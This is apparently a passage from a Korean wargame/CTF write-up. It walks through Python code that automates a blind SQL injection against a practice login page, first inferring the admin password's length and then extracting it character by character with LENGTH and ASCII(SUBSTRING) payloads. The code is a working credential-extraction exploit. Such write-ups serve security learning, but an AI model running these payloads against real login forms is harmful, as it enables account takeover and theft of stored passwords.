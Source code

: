     |

6. 결과 확인

    ```python
    print(find_password_length(url, username, password))
    ```

    |

7. 완성된 find_password_length()

    ```python
    import requests

    def find_password_length(url, username, password):
        for length in range(0, 51): # 0부터 50까지
            payload= {"username": f"{username}' AND LENGTH(password) = {length} -- 1", "password": f"{password}"}
            res = requests.post(url, data=payload)
            if "Hello" in res.text:
                return length

    url = "http://war.knock-on.org:10003/login"
    username = "admin"
    password = "1"
    password_length = find_password_length(url, username, password)

    print(f"비밀번호 길이: {password_length}")
    ```

|

|

### 자동화 코드: find_password()

---

1. 찾아낸 password를 저장할 stirng 변수 초기화

    ```python
    string= ""
    ```

    |

2. 비밀번호 찾기 루프

    ```python
    for length in range(1, password_length+1): # 비밀번호 위치 (1부터 password_length까지)
        print(f"{length}번째 문자 탐색 중...")
        for ascii_code in range(32, 127): # 아스키 코드 32부터 126까지
            payload = {"username":f"{username}' AND ASCII(SUBSTRING(password, {length}, 1)) = {ascii_code} -- 1", "password":f"{password}"}
            res = requests.post(url, data=payload)
            if "Hello" in res.text:
                string+= chr(ascii_code) # ascii 값을 문자로 변환
                print(f"현재까지 알아낸 비밀번호: {string}")
                # return string 여기서 반환하면 안됨
                break
    return string # 완성된 string 반환
    ```
